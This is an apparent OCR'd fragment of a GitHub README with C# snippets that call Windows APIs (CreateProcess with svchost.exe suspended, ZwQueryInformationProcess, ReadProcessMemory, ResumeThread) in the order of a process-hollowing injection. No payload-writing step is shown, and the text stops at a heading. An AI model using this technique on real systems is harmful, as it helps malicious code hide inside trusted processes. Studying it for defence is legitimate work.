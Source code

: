 ```
STARTUPINFO si = new STARTUPINFO();
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero, IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);
```

## [ZwQueryInformationProcess](https://docs.microsoft.com/en-us/windows/win32/procthread/zwqueryinformationprocess):

```
[DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, uint ProcInfoLen, ref uint retlen);
```

```
PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
uint tmp = 0;
IntPtr hProcess = pi.hProcess;
ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);
```

## [ReadProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-readprocessmemory):

```
[DllImport("kernel32.dll", SetLastError = true)]
static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);
```

```
byte[] addrBuf = new byte[IntPtr.Size];
IntPtr nRead = IntPtr.Zero;
ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);
IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));
byte[] data = new byte[0x200];
ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);
```

## [ResumeThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread):

```
[DllImport("kernel32.dll", SetLastError = true)]
private static extern uint ResumeThread(IntPtr hThread);
```

```
ResumeThread(pi.hThread);
```

## [Sleep](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleep):
